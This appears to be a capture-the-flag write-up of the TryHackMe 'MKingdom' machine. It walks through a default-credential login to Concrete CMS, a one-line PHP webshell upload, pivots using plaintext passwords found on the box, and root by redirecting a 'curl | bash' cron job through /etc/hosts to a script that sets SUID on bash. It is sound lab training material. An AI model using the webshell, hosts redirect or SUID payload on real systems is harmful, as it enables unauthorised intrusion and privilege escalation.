## TL;DR

First, we find the `concrete cms` and upload our webshell to get shell. Then we move between users using passwords found over the system.

We move to `root` using cronjob we identify and modification of the `/etc/hosts` file, to points the hostname to our machine.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `85` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

I added `mkingdom.thm` to my `/etc/hosts`.

### Find concrete cms and upload webshell to get reverse shell

I went to port `85`, nothing too interesting:



Then, I went for fuzzing which led me to `/app`:
```bash
┌──(agonen㉿kali)-[~/thm/MKingdom]
└─$ ffuf -u 'http://mkingdom.thm:85/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mkingdom.thm:85/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

app                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 144ms]
```

At the end, after pressing the button, we reach this `concrete cms 8.5.2` at:
```bash
http://mkingdom.thm:85/app/castle/
```



After googling, I found that the login portal for admin located at `/index.php/login`, or more extensive:
```bash
http://mkingdom.thm:85/app/castle/index.php/login
```



I tried to login with default credentials, `admin:password`, and it worked.

First, I added the type `php` for allowed files:
```bash
http://mkingdom.thm:85/app/castle/index.php/dashboard/system/files/filetypes/saved
```



Then, I uploaded my webshell, the webshell is:
```php
<?php system($_GET[0]) ?>
```
The uploading point is at:
```bash
http://mkingdom.thm:85/app/castle/index.php/dashboard/files/search
```



I got back the url where the uploaded shell is at:
```bash
http://mkingdom.thm:85/app/castle/application/files/7217/6978/1550/webshell.php?0=id
```



We got `RCE`, Let's paste the penelope payload:



### Move to user toad using password found inside database.php

I found the credentials of `toad`.
```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php 
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
```

Let's move to `toad`:
```bash
su toad # toadisthebest
```



### Move to user mario using password found inside environment variable

Inside the environment variables we can find something strange:



We can read the `.bashrc` to see this:
```bash
toad@mkingdom:~$ tail .bashrc
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

export PWD_token='aWthVGVOVEFOdEVTCg=='
```

I decoded this, and found some strange string:
```bash
toad@mkingdom:~$ echo $PWD_token | base64 -d 
ikaTeNTANtES
```

I tried to move to user `mario` with the password, and it worked:
```bash
su mario # ikaTeNTANtES
```



I tried to read the flag with `cat`, but it didn't work. Someone put SUID bit for user `toad` on cat (what ??)



So, I read it with strings:
```bash
mario@mkingdom:~$ strings user.txt 
thm{030a769febb1b3291da1375234b84283}
```

### Privilege Escalation to Root using cronjob and modify /etc/hosts

I exeucted `pspy32` and found out there is some cronjob task running:
```bash
2026/01/30 09:13:01 CMD: UID=0     PID=4176   | curl mkingdom.thm:85/app/castle/application/counter.sh 
2026/01/30 09:13:01 CMD: UID=0     PID=4175   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```



I checked the script:
```bash
mario@mkingdom:/tmp$ cat /var/www/html/app/castle/application/counter.sh
#!/bin/bash
echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
```

Okay, we also can't modify this file. However, I checked `/etc/hosts`, and found out it is found in our group, we can modify it:
```bash
mario@mkingdom:/tmp$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26  2024 /etc/hosts
```

Okay, let's add our IP, and then it'll go to our server, just need to setup the whole path.
So, first change the `/etc/hosts`, add this line (with your ip):
```bash
192.168.138.59  mkingdom.thm
```



Then, on the local machine, setup the listener:
```bash
┌──(agonen㉿kali)-[~/thm/MKingdom]
└─$ mkdir -p ./app/castle/application/   
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/MKingdom]
└─$ echo 'chmod u+s /bin/bash' > ./app/castle/application/counter.sh
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/MKingdom]
└─$ python3 -m http.server 85
```

Now, wait for the request, and then spawn the root shell:
```bash
mario@mkingdom:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1021112 May 16  2017 /bin/bash
mario@mkingdom:/tmp$ /bin/bash -p 
bash-4.3# id
```



And the root flag:
```bash
bash-4.3# strings root.txt 
thm{e8b2f52d88b9930503cc16ef48775df0}
```

Here is the crontab task file:
```bash
bash-4.3# strings root 
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.Joo6P0/crontab installed on Wed Nov 29 00:30:47 2023)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# For more information see the manual pages of crontab(5) and cron(8)
# m h  dom mon dow   command
* * * * * curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log 
*/5 * * * * rm /var/log/up.log
```